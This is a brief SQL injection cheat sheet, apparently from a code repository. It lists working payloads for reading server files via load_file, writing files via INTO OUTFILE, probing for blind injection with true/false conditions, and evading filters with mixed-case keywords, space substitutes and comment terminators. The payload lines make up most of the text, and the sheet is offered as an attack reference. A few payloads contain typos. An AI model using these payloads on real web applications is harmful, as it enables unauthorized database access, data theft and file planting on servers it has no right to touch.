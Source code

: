 SQLi or SQL injection is a web application vulnerability allows an attacker to bypass logins and extract sensitive data from the database.

#### Reading files:
UniOn selEct 1,load_file('file location') /*

#### Writing files:
UniOn selEct null,[file content] inTo outfile '/location/to/write/file/to' /*

## Blind SQLi
Another type of sql injection attack where error does not shown to the user.
### How to indentify blind SQLi:
Test it by making payloads **TRUE**, for eg.:
  `1' and 1 = 1 #` this statement is true and should return the normal data
  `1' and 1 = 2 #` this statement is false and will not return any data without showing any error.

If both payloads work mean site is vulnerable to blind SQLi but not showing error on wrong SQLi pyload.

Examples of TRUE statements for discovering sqli
```
aNd 1=1
aNd 21=21
orDeR bY 1
```

Examples of FALSE statements
```
dNd 0=1
anD 9=2
ordEr bY 1000000000000
```

Characters to use instead of spaces:
```
+, /**/, %20
Examples: orDeR bY 1 can be re-written as
orDer+bY+1
orDer/**/bY/**/1
orDer%20bY%201
```

Comments to end the quries:
```
/*
//
#
%23
```

Ps: sometimes you might need to add ';' before the comment, examples:
```
anD 1=1//
anD 1=1;//
```
